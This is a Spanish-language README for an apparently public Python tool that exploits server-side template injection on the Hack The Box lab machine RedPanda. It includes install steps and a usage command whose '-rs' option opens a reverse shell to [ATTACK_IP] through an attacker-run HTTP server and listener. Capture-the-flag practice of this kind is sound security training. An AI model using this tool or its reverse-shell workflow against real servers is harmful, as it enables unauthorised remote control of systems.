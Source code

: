 ## ssti_attack_redpanda
SSTI ATTACK REDPANDA, es un script programado en python diseñado especificamente para la maquina RedPanda de Hack The Box.
Realizando peticiones por POST al servidor, hace la injeccion del template con el comando que se haya especificado.
***
## Instalacion
```
git clone https://github.com/kr4ken600/ssti_attack_redpanda.git ssti
cd ssti
pip install -r requirements.txt
```
***
## Uso
El script contiene una opcion de ayuda:
```
python3 ssti_attack_redpanda.py -h
```
En el que se desplegara la forma de usarse y sus diferentes opciones.
### Crear una Reverse Shell
Entre las opciones se encuentra ```-rs```, el cual crea una reverse shell de forma automatica, solo se necesitan 3 parametros más:
```
python3 ssti_attack_redpanda.py -rs [ATTACK_IP] [HTTP_PORT] [PORT]
```
Tambien es necesatio tener corriendo un servicio http y estar en escucha por el puerto decesado para entablar la reverse shell
## Ejemplo
![Image Text](/img/image.png)
